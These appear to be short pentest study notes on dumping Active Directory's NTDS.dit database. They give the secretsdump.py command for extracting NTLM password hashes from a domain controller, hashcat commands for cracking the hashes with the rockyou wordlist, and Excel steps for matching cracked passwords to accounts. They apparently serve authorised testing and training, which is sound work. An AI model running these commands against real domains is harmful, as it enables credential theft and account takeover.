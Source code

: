 ## Dumping the NTDS.dit

### What is it?
- A database used to store AD data
- Data includes:
  - User information
  - Group information
  - Security descriptors
  - Password hashes

### Attack
- Dump it :`secretsdump.py <domain>/<username>:'<password'>@<DC IP> -just-dc-ntlm`

  ![image](https://github.com/user-attachments/assets/a995fd42-13fc-465c-a9ae-197aad4bd5f3)

### Crack Hashes
- Copy the secrets
- Past into Excel
- Use text to columns with colon delimiter
- Delete middle 2 columns
- Copy the hashes
- Paste into file using mousepad
- Crack the hashes `hashcat -m 1000 ntds.txt /usr/share/wordlists/rockyou.txt`
- Show the password `hashcat -m 1000 ntds.txt /usr/share/wordlists/rockyou.txt -- show`

  ![image](https://github.com/user-attachments/assets/2126b459-7af8-4412-9aa3-5f9dec99be31)

- Paste passwords into 2nd Excel sheet
- Use `=vlookup(B1,Sheet2!A:B,2,false)` to match up passwords
- Double click plus to do the rest
- Paste as values
- Make sure number format is text

